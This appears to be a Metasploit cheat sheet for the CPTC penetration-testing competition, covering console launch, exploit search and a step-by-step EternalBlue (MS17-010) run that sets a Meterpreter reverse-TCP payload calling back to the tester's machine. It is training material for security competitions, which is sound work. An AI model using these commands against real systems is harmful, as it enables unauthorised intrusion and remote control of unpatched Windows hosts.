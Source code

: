 # Metasploit Quick Reference for CPTC
---

## Quick Start

### Launch Metasploit
```bash

msfdb init

# Start console
msfconsole -q

# Or with resource script
msfconsole -q -r script.rc
```

### Search for Exploits
```bash
# In msfconsole:
search SERVICE_NAME
search type:exploit platform:windows smb
search cve:2017-0144  # Specific CVE

# From command line
msfconsole -q -x "search eternalblue; exit"
```

---

## Common CPTC Scenarios

### Scenario 1: EternalBlue (MS17-010)

**If you find Windows 7/Server 2008 with port 445:**

```bash
msfconsole -q

# Search
use exploit/windows/smb/ms17_010_eternalblue

# Configure
set RHOSTS 10.10.10.50
set LHOST YOUR_KALI_IP
set payload windows/x64/meterpreter/reverse_tcp

# Check if vulnerable (IMPORTANT - don't exploit blindly!)
check

# Exploit
exploit

# If successful, you get meterpreter session
```
